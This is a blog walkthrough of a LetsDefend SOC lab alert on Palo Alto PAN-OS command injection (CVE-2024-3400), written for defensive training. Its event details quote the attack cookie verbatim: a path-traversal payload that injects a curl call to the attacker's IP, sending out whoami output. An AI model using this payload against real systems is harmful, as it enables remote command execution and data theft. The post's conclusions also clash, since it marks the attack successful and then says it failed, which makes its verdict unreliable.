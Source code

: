 ```yaml
---
title: "SOC274 - PAN-OS Command Injection CVE-2024-3400 Walkthrough"
description: "LetsDefend walkthrough of a Palo Alto Networks CVE-2024-3400 command injection exploitation."
pubDate: 'Jun 11 2025'
heroImage: "../../assets/letsdefend-social.png"
---
```

<style>
  article img {
    max-width: 100%;
    width: auto;
    height: auto;
    border-radius: 12px;
    box-shadow: var(--box-shadow);
    margin: 1em auto;
    display: block;
  }
</style>

<article>

### Event Details

**Event ID:** 249

**Event Time:** Apr 18, 2024, 03:09 AM

**Rule:** SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)

**Level:** Security Analyst

**Hostname:** PA-Firewall-01

**Destination IP Address:** 172.16.17.139

**Source IP Address:** 144.172.79.92

**HTTP Request Method:** POST

**Requested URL:** 172.16.17.139/global-protect/login.esp

**Cookie:** SESSID=./../../../opt/panlogs/tmp/device\_telemetry/hour/aaa\`curl\${IFS}144.172.79.92:4444?user=\$(whoami)

**Alert Trigger Reason:** Characteristics exploit pattern detected on cookie and request, indicative of CVE-2024-3400 exploitation.

**Device Action:** Allowed

### Getting Started

To get started with this alert we will start by taking a look at the raw log from the **Log Management** page.

![Pasted image 20250611141555.png](../../assets/Pasted%20image%2020250611141555.png)

After reviewing the raw log data we can move on to the **Endpoint Security** page. We can quickly see there's a suspicious `update.py` that ran at the same time as the alert in the processes tab. The event involving `update.py` also includes an image hash that we can look into.

![Pasted image 20250611141848.png](../../assets/Pasted%20image%2020250611141848.png)

When we search for the image hash in VirusTotal, we can see that the file is indeed malicious.

![Pasted image 20250611142124.png](../../assets/Pasted%20image%2020250611142124.png)

In the network action tab we confirm that there was an outbound request to the malicious IP (144.172.79.92), so we will take action and contain `PA-Firewall-01`. We can see that this IP is malicious by looking at the Threat Intel tab.

![Pasted image 20250611143938.png](../../assets/Pasted%20image%2020250611143938.png)
![Pasted image 20250611144125.png](../../assets/Pasted%20image%2020250611144125.png)
![Pasted image 20250611144012.png](../../assets/Pasted%20image%2020250611144012.png)

If we do a deeper dive on the malicious IP address, we can see that 10/94 security vendors have marked it as malicious in VirusTotal.

![Pasted image 20250611144346.png](../../assets/Pasted%20image%2020250611144346.png)

With a Whois lookup, we can see that the IP is tied to RouterHosting LLC and FranTech Solutions.

**FranTech Solutions**: 144.172.64.0 - 144.172.127.255  
**RouterHosting LLC**: 144.172.79.0 - 144.172.79.255 
 
Both are known bulletproof hosting providers often used for C2 servers, malware delivery, and proxy/VPN evasion.

We then began executing the SOC274 playbook.

### Understand Why the Alert Was Triggered

* We reviewed the rule name to understand this is a PAN-OS command injection.  
* The traffic is from an external IP to the firewall’s GlobalProtect login page using HTTP POST.

### Collect Data

* We checked ownership of the source IP in Whois.  
* It belongs to a known bulletproof hosting provider.  
* We validated the IP’s reputation in VirusTotal and other sources.

### Examine HTTP Traffic

* We identified the payload in the cookie header, which used command injection syntax to invoke a remote curl request.  
* This confirms exploitation of CVE-2024-3400.

### What Is the Attack Type?

* We selected **Command Injection** due to the command syntax in the cookie.

![Pasted image 20250611150829.png](../../assets/Pasted%20image%2020250611150829.png)

### Check If It Is a Planned Test

* We checked email logs for keywords like `test`, `pentest`, or any scheduled tests.  
* No results found.  
* We selected **Not Planned**.

![Pasted image 20250611151027.png](../../assets/Pasted%20image%2020250611151027.png)
![Pasted image 20250611151354.png](../../assets/Pasted%20image%2020250611151354.png)

### What Is the Direction of Traffic?

* Source: 144.172.79.92 (external)  
* Destination: 172.16.17.139 (internal)  
* Selected: **144.172.79.92 -> 172.16.17.139**

### Was the Attack Successful?

* Yes, the firewall initiated an outbound C2 connection to the attacker’s IP.  
* We marked this as a successful compromise.

### Containment

* We isolated `PA-Firewall-01` from the network.

![Pasted image 20250611155530.png](../../assets/Pasted%20image%2020250611155530.png)

### Artifacts

* We documented the malicious IP.  
* No emails, URLs, or MD5 hashes were deemed actionable.

![Pasted image 20250611161944.png](../../assets/Pasted%20image%2020250611161944.png)

### Tier 2 Escalation

* Due to confirmed exploitation and outbound connection, we escalated to Tier 2.

![Pasted image 20250611162348.png](../../assets/Pasted%20image%2020250611162348.png)

### Analyst Note

"The alert was triggered by a command injection attempt targeting the Palo Alto firewall’s GlobalProtect login interface, exploiting CVE-2024-3400 via malicious cookie payload. The source IP belongs to a bulletproof hosting provider with a poor reputation, indicating a likely external attacker. Outbound traffic analysis shows no evidence of successful lateral movement or compromise within the internal network. Based on current evidence, the attack did not succeed in gaining internal access. Recommend continued monitoring and reviewing firewall patch status."

![Pasted image 20250611162932.png](../../assets/Pasted%20image%2020250611162932.png)

---

And that's a wrap! Thanks for following along with my walkthrough of the SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400) investigation.

I plan on posting more walkthroughs related to LetsDefend and Hack The Box with a goal of at least one post per week.
</article>
